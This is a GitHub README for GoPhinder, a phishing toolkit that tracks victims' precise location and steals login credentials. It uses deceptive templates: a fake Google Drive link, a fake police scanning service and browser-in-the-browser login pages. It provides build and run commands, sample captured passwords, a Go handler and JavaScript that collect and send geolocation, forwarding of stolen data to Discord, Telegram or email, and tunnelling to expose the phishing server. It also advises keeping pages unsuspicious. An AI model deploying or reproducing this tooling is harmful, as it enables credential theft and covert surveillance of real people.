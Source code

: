 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 A Modular Social Engineering Toolkit 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), GoPhinder is a very modular Social Engineering toolkit initially designed for device tracking, but supports other phishing based attack types.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Prerequisite
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |

## Install
```bash
git clone https://github.com/CharlesTheGreat77/GoPhinder
cd GoPhinder
go mod init gophinder
go mod tidy
go build -o gophinder run.go
./gophinder -h
```

### Example
```bash
./gophinder -p 8000 -t templates/index.html | tee locations.txt

# sends location and ip logs to webhooks, email, telegram
./gophinder -t templates/index.html -config bots.json

./gophinder -t templates/bitb.html | tee creds.txt
```

## Output
Phishing for Location
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

Phishing for Login
```bash
┌──[Login Attempt]────────────[2025-05-04 11:59:24]
│ [+] IP Address   : ::1
│ [+] Email        : example@email.com
│ [+] Password     : hello
└────────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
// example handler seen to log location data
func HandleTrack(templatePath string, notifier notifier.Notifier) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response from template
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
    		// get json data
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		if notifier != nil {
			// send to external webhooks etc.
			go notifier.Notify("Location Log", fields) // optional
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder
* Browser In The Browser Template(s)

By Default, templates send a json response to the backend for the data to be logged
```javascript
// example to push lat and lon to the backend to be logged
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ // json request
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.


## Notifications
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the notification methods are set to false, but one can enable as many as needed.

## Screenshot
Phishing for location based information
<img src="./assets/example.png" alt="GoPhinder" />

Advanced Browser in the Browser Phishing
![BitB Video](https://github.com/user-attachments/assets/9ed1706b-2a5b-44ad-b7a5-7a6a385a1e4c)



# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Roadmap
1. Phishing for camera permissions
2. Add bitb templates for windows

# Contributions
Contributions are very welcomed for additional functionality, or templates!
